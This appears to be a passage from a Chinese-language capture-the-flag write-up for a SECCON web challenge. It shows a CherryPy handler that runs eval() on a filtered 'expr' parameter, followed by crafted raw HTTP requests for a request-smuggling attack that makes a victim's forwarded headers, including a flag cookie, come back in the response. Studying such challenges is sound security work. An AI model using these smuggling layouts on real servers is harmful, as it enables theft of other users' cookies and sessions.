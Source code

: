 ```python
class Root(object):
    ALLOWED_CHARS = "0123456789+-*/ "

    @cherrypy.expose
    def default(self, *args, **kwargs):
        expr = str(kwargs.get("expr", 42))
        if len(expr) < 50 and all(c in self.ALLOWED_CHARS for c in expr):
            return str(eval(expr))
        return expr
```

这样思路就比较清晰了，通过请求走私构造POST请求，把expr设置成原请求的header。

截一下转发的请求包

```
GET /api?expr=1%2B2 HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: nginx
X-Real-Ip: 172.22.0.3
X-Forwarded-For: 172.22.0.3
X-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Referer: http://nginx:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: flag=SECCON{dummydummy}

```

理想情况下，可以构造为

```
GET /api?expr= HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: nginx

POST /api HTTP/1.1
Host: nginx

expr= HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: nginx
X-Real-Ip: 172.22.0.3
X-Forwarded-For: 172.22.0.3
X-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Referer: http://nginx:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: flag=SECCON{dummydummy}
```
